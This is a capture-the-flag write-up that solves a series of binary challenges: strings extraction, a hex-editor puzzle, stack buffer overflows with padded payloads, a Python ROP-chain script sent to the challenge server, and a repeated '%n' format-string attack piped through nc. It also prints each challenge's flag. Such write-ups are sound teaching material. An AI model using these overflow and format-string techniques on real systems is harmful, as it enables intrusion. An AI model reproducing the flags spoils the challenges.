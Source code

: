 # BE01
```
Download the file at https://ggcs-files.allyourbases.co/be01.zip and find a way to get the flag from the program.
```
Simply running strings on the file will get us our flag!

![Simple strings](/images/BE01.png)

Flag: sTriNGS-r-EZ-7819

# BE02
```
Download the file at https://ggcs-files.allyourbases.co/be02.zip and find out what the program does to get the flag.
```
We are given some c code, so we can compile this all with `gcc`. Command used is:`gcc program.c -o program`.
And then simply running the generated ELF gives us the flag.

![Using gcc](/images/BE02.png)

Flag: c0mpILE-tIME_1822

# BM01
```
Download the file at https://ggcs-files.allyourbases.co/bm01.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bm01.allyourbases.co port 8134 to get the flag.
```

We can use `gdb program` to figure out what the program is doing.
We use `info func` to view functions, and `disas main` to see the assembly.
There is an interesting line which is
```
0x000006d6 <+153>:   cmp    BYTE PTR [ebp-0x9],0x62
```
This compares the byte at `ebp-0x9` with `0x62`, which is "b".
After a bit of experimentation, I was able to get the sample flag on local by adding 50 * "a" and then adding a "b" on the end.
We can do the same on the remote to get the flag.
Final payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb`

Flag: c0MinG-Up_bs-8788

# BH01
```
Download the file at https://ggcs-files.allyourbases.co/bh01.zip and find a way to extract the flag.

Note that the flag must be submitted as 'normal' text which you might read in a book.
```
If we open the file up in a hex editor, we see the word flag, but there doesn't appear to be anything after it at first.
However, by accident, I figured that if you try copy the hex into a text file, it appears to be some text in English, however it was upside down.
We convert this to normal English, keeping the capitalization to get the flag.

Flag: inSIDEoUT

# BH02
```
Download the files at https://ggcs-files.allyourbases.co/bh02.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bh02.allyourbases.co port 8133 to get the flag.
```
Again, we open this up in `gdb`
We can see again, there is that line that compares bytes.
```
   0x00000744 <+215>:   cmp    BYTE PTR [ebp-0x9],0x66
```
0x66 is "f" in ASCII, but I wasn't able to get the placeholder flag, so I looked again.
It appears that we also need to add a ":)" before our f, and so I kept trying, eventually getting the sample flag.
Final payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:)f`

Flag: caNaRY-CoalMINE-2811

# BH03
```
Access the network service at ggcs-bh03.allyourbases.co port 1337 and follow the instructions it gives you to obtain the flag.
```
When we connect with `nc ggcs-bh03.allyourbases.co 1337`, we can see it wants us to call 3 functions.
This is a simple ROPchain task, where we overwrite the EIP register 3 times. 
To call the functions, we need padding so that we can overwrite things, and then we include the addresses of the functions.
I wrote a script to do this for me.
```
import socket
import struct
p32 = lambda x : struct.pack('I', x)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('ggcs-bh03.allyourbases.co', 1337))
print(s.recv(1024))
a = s.recv(1024)
b = a.split("\n")
x = int((b[4].split(": "))[1],16)
y = int((b[3].split(": "))[1],16)
z = int((b[2].split(": "))[1],16)
payload = "A" * 45 + p32(x) + p32(y) + p32(z) + "\n"
print(payload)
s.send(payload)
print(s.recv(1024))
print(s.recv(1024))
print(s.recv(1024))
```
Running the script gives us 3 strings.
```
PTi0xOTkw
UVE9mdW5jVGl
RmxhZzogUmV
```
If we put these in reverse order and base64 decode, we get the flag.

Flag: ReTTOfuncTiON-1990

# BX01
```
Access the network service at ggcs-bx01.allyourbases.co port 9171 and find a way to exploit it to get the flag.
```
For this challenge, we need to get the value from 1337 to 1. 
We can do this with a format string, specifically `%n`
Doing it once on the remote by sending `a%n` gives us the output
```
Object validated, contents is 'Rig'
```
So we just need to do this multiple times to get the flag.
The number ended up being 14 times.
```
python -c "print 'A'+'%n'*14" | nc ggcs-bx01.allyourbases.co 9171
```

Flag: tRUNkated-EveRYTHinG-6761

